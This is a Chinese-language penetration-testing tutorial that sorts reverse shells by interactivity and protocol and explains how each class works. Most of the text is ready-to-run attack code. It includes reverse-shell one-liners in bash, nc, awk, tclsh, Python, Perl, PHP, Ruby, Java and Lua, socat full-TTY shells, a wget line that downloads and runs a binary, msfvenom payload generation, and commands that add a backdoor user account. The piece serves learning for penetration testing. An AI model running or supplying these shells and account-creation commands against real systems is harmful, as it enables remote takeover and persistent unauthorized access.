

# 反弹shell

## 1、思考

### 1、本质

反弹shell在渗透测试中经常会用到，属于常备技能之一。所谓反弹shell，我对它的理解：一是反弹，二是shell。反弹指的是 被控端主动通过网络连接到受控端，shell指的是将命令行的输入输出转发到受控端。因此，反弹shell包括两部分的内容：

1. 网络连接
2. 命令执行

本文的标题是"不一样的视角"剖析反弹shell，和业界普遍的视角是不同的，我把它划分更了。为啥这么做呢？说一下写这篇文章的初衷，一般反弹shell是根据是否是常驻shell划分为交互式与非交互式两种。我个人认为太笼统了，比如 bash -i ，nc -e/bin/bash, pty , socat 都是交互式反弹shell，但是他们本身有很大的不同。单拿bash -i 和 nc -e/bin/bash来说，都是弹bash，为啥一个加-i，一个不加，他们有什么不同，统称为交互式，会掩盖了很多技术细节，所以我换了个视角将反弹shell更细区分出来，并说明本质以及每种之间如何转化

如果和大家理解的有不同，请不要诧异，欢迎讨论

### 2、分类

针对网络连接和命令执行这两方面做文章， 衍生出了多种多样的反弹shell。首先我按照交互方式可以分为5大类：

1. 非交互式之间断类
2. 非交互式之连通类
3. 半交互式
4. 交互式
5. 完全交互式

可能会有点懵，交互方式怎么这么多种？？？ 这是渗透测试中对反弹shell 递进的需求造成的。 按照通信协议可以分为 5大类，基本上涵盖了常见的协议，这也是反弹shell走向成熟的一个标志。 

1. tcp
2. udp
3. icmp
4. http/s
5. dns 

按照流量数据来分，分为三大类：

1. 明文
2. 加密
3. 口令

其中，口令大家可能没啥感觉，主要是在反弹shell后，client和server进行一下身份验证

### 3、框架整理

最近做分享，越来越喜欢使用思维导图，整理思路确实是一把好手，不过下面的思维导图，反反复复修改了很多次。一开始 站的高度不够，整理出来的都是各种反弹shell命令，其实这些东西都有专门的网站收集，写了没有意义，还是理解的不够， 又改了几版，反复验证每条命令的原理和梳理检测方案，才有了下面反弹shell的整体框架



## 2、反弹姿势

下面根据思维导图的顺序讲解一下反弹shell的各种姿势，按照交互方式划分，更能贴近渗透测试的真实场景

### 1、非交互式-间断类

间断类，简单来说就是 网络连接和命令执行之间的交互不是连续的，有几种情况，网络连接不是长连接，命令执行不是常驻 shell, 或者两者都存在。如何判断一个反弹shell属于间断类呢? 当反弹shell运行后，在控制端输入 bash -i ，如果无法产生交互 式，则说明是间断类。简单总结了以下三种模式：

#### 1、网络是长连接，命令执行是非常驻shell模式

```text
awk 'BEGIN {s = "/inet/tcp/0/127.0.0.1/8080"; while(42) { do{ printf "shell>" |& s; s |& getlinec; if(c){ while((c |& getline) > 0) print $0 |& s;close(c); } } while(c != "exit") close(s); }}' /dev/null

echo 'set s [socket 127.0.0.1 8080];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;sete"exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; };close $s;' | tclsh
```


#### 2、网络是短连接，命令执行是常驻shell模式


client向server发送请求，server将命令内容响应给client,client 获取命令内容，通过管道发送给bash执行，并读取执行结果， 最后通过请求再发给server，完成一个流程。 

这种的比较少见，反正都无法产生交互式，没必要这么复杂，因此更多地是第一种和第三种

#### 3、网络是是短连接，命令执行是非常驻shell模式

结构是上面两个的拼接，这种反弹shell,采用http/s协议，通过心跳包的方式，传递命令和结果，因为这里的http/s是短连接， 命令执行时间较短，相对来说不容易检测。 

在Metasploit 中，通过 reverse\_http和reverse\_https这两种payload，可以生成。如果大家对其他协议的反弹shell感兴 趣，例如icmp的反弹shell

### 2、非交互式-连通类

连通类非交互式反弹shell，相对传统，容易被检测到，例如nc 反弹，部分bash手法反弹（bash 不加 -i ）。连通类非交互式反 弹shell 可以和业界常说的交互式反弹shell做对应，既然我这里把它定义为非交互式连通类，说明一下我的判断标准：

* 非交互式反弹shell 与交互式反弹shell的本质区别是非交互式反弹shell没有上 上下文。 
* 连通类和间断类的区别在于连通类的网络和命令之间的传输通道是实时连通的。

判断是否是交互式，有个简单的判断方式：在反弹shell连接后，输入 history 命令，看是否有输出，如果没有输出，说明是非 交互式的。 

连通类非交互式反弹shell，区别于间断类，网络连接与命令输入输出构成一条连续的通道，其基本结构如下图所示：


这种反弹 shell 在渗透测试中比较常见，举两个典型示例：

1、NC反弹

在控制端运行 `nc -lvp 8080` , 在被控端运行 `nc -e /bin/sh 127.0.0.1 8080` , 在控制端运行 history 是没有任何反应的。


观察一下被控端反弹的 bash ，它的输入输出都连接着管道，同时其他句柄绑定有网络连接。


2、EXEC反弹

再试一下 exec 反弹的 bash ，被控端运行如下命令，控制端命令如上。

```text
exec /bin/sh 0</dev/tcp/127.0.0.1/8080 1>&0 2>&0
```

连通状态和 nc 反弹是类似的， sh 的输入输出句柄都有网络连接 , 从而保证了网络与命令之间的实时连通


当然为了保证网络与命令之间的实时连通 也不一定全是这种情况，大家可以了解一下 select ， epoll 机制

### 3、半交互式

上面讲解了非交互式，更进一步，聊一下半交互式。半交互式，大家可能没有太多的概念，但是使用的时候还是挺多的，例 如 bash -i 这种类型的反弹，其实属于半交互式。对半交互式 shell 的定义： 半交互式反弹 shell 有上下文，但相比终端交互 能力弱，如何判断是否是半交互式 shell ，运行两个命令就可以知道： 

1. 运行 history 命令，有输出 
2. 运行 top 命令，无输出。 

至于如何产生半交互式反弹 shell ，常见的有如下两种办法，我们依次试一下

1、在连通类非交互式反弹 shell 中，运行 `bash -i`

在上一节的基础上，控制端运行 bash -i , 我们看到受控端机器上的当前路径被映射到了本地


接着运行 history 命令，为了方面截图，使用 grep 进行了过滤


最后运行 top, 报了 `top: failed tty get` 这个错误，无法获取一个终端，这也是我将它定义为半交互式的原因


2、直接反弹 bash -i

```text
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1

/bin/bash -i > /dev/tcp/127.0.0.1/8080 0<& 2>&1

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### 4、交互式

半交互式反弹 shell 虽然有了一定程度的交互能力，但距离一个终端还是有很大的距离，为了提高交互能力，将半交互式提升 为交互式，我们需要引入伪终端 pty 。引入伪终端，不仅增强了交互能力，而且有了更强的对抗能力。生成交互式反弹 shell 常见的有两种方式，一种是直接反弹 pty ，另一种是在普通反弹 shell 中生成 pty 。

#### 1、直接反弹 pty

在 Python 中有一个 pty 的包，专门用来生成伪终端，我们可以使用 pty 反弹 bash ，并与之绑定

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

在控制端输入 top 命令，看看是否有动态输出：


接着查看反弹 bash 的输入输出上是否有管道或者 socket 绑定，我们发现 pty 反弹 bash 的输入输出和正常一样，这也是和 nc 反弹 不同的点


#### 2、普通反弹 shell 中生成 pty

这里的普通反弹 shell 指的是连通类非交互式或者半交互式反弹 shell ，利用 python 执行如下命令，即可生成 pty ，相当于把上面 的一句话拆成了两部分使用，还是比较常见的

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```


假如系统中没有 python 环境，比如 docker 容器中，那么使用 script 命令也是可以

### 5、完全交互式

我们有了交互式的反弹 shell , 已经非常接近正常终端，但是在使用的过程中，还是发现了很多不同，比如无法用 tab 补齐命令 , 无法删除命令， ctrl+c 会直接退出了 shell 。如何才能打造出和正常终端一样操作的反弹 shell 呢？其实还是有办法的

#### 1、socat

socat 是一款优秀的反弹 shell 工具，其生成的反弹 shell 和普通终端一样易用。在控制端运行

```text
socat file: tty ,raw,echo=0 TCP-L:8080
```

在被控端运行：

```text
socat tcp-connect:127.0.0.1:8080 exec:"bash -li",pty,stderr,setsid,sigint,sane
```

在 socat 反弹 shell 里，使用 tab 补齐 whoami 命令，感觉和正常终端没有什么区别


在渗透测试中，如果想更好的使用 socat ，大家可以使用下面的脚本生成静态编译的 socat

```text
https://github.com/andrew-d/static-binaries/tree/master/socat/build.sh
```

然后将 socat 放到 VPS 上，远程下载执行

```text
wget -q https://xxx.com/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:8080
```

#### 2、pty + 重置终端

"pty + 重置终端 " 的方式真的很奇妙， 强制反弹 shell 匹配控制端的本地终端。在控制端：

1、首先检查当前终端和 STTY 信息

```text
echo $TERM
stty -a
```

2、nc 开启监听

```text
nc -lvp 8080
```


在被控端，只需要使用一个普通的反弹 shell 连接到控制端即可，剩下的工作在控制端做就可以了

3、启用 python 交互式

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

4、把它丢到后台挂起

```text
ctrl + z
```

5、重置 stty ，也就意味着你看不到输入的内容

```text
stty raw -echo
```

6、把后台挂起的程序调回前台，这个时候在终端看不到 fg 的

```text
 fg
```

7、完全刷新终端屏幕

```text
reset
```

8、接下来设置环境变量，根据第一步得到的环境变量来设置

```text
export SHELL=bash
export TERM=xterm
stty rows 42 columns 162
```

最后的效果如下，继续使用 tab 补全 whoami 命令


最后推荐一个收集反弹 shell 的网站： https://krober.biz/misc/reverse\_shell.php?ip=127.0.0.1&port=8888 ，里面常见的反弹 shell 都可以看到

## 6、附录

### 1、各脚本语言反弹shell方式

```text
## perl 版本： 

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};

## python 版本： 

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

## php 版本： 

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

## ruby 版本： 

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

## java  版本： 

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

## lua 版本： 

lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### 2、若使用msfvenom

学习过程中发现其实强大的 MSF 框架也为我们提供了生成一句话反弹 shell 的工具，即msfvenom 。绝对的实用，当我们不记得前面说的所有反弹 shell 的反弹语句时，只要我们有 Metasploit, 随时我们都可以使用 msfvenom -l 来查询生成我们所需要的各类命令行一句话

1、查询 payload 具体路径

我们直接可以使用 msfvenom -l 结合关键字过滤（如 cmd/unix/reverse ），找出我们需要的各类反弹一句话 payload 的路径信息

```text
msfvenom -l payloads 'cmd/unix/reverse'
```


查看以上截图，我们可以看到 msfvenom 支持生成反弹 shell 一句话的类型非常丰富，这里几乎是应有尽有，大家可以依据渗透测试对象自行选择使用

2、生成命令行一句话

依照前面查找出的命令生成一句话 payload 路径，我们使用如下的命令生成反弹一句话，然后复制粘贴到靶机上运行即可

```text
## bash  反弹一句话生成

msfvenom -p cmd/unix/reverse_bash lhost=1.1.1.1 lport=12345 R

## 阉割版 nc 反弹一句话生成

msfvenom -p cmd/unix/reverse_netcat lhost=1.1.1.1 lport=12345 R
```

### 3、Linux下一句话添加账户

```text
 ## chpasswd  方法
 
useradd guest;echo 'guest:123456'|chpasswd

## useradd -p  方法

useradd -p `openssl passwd 123456` guest

## echo -e  方法

useradd test;echo -e "123456n123456n" |passwd test
```


